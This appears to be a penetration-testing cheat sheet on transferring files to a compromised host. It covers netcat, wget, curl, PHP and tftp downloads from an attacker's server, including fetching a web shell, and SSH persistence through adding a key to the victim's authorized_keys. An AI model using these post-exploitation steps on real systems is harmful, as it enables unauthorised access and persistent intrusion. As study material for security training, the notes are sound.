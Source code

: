 # Transfering files

### Set up av simple python webserver

For the examples using curl  and wget we need to download from a web-server. THis is an easy way to set up a web-server. This command will make the entire folder available on port 9999.

```
python -m SimpleHTTPServer 9999
```

### Wget

Now you can download any file with curl or wget
```
wget 192.168.1.102:9999/file.txt
```

### Curl

```
curl -O http://192.168.0.101/file.txt
```

### Netcat
Another easy way is to use netcat. 

If you can't have an interactive shell it might be risky to start listening on a on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because  that will destroy your sessions.

So instead you can connect from the target machine like this.

On attacking machine:
```bash
nc -lvp 4444 < file
```
On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the other way around:

So on the victim-machine we run nc like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```


### With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

### Ftp

If you have access to a ftp-client to can of course just use that. 

### Tftp

On some rare machine we do not have access to nc and wget, and curl.. But we might have access to tftp. Some versions of tftp are run interactivly, like this:

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactivly, for whatever reason, we can  do this trick:

```
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH
If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair.
You do that with: 
```
ssh-keygen -t rsa -C "your_email@example.com"
```
then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: `

This will create two files, one called *nameOfMyKey* and another called *nameOfMyKey_pub*. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.
Now you copy the content of *nameOfMyKey_pub*. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```


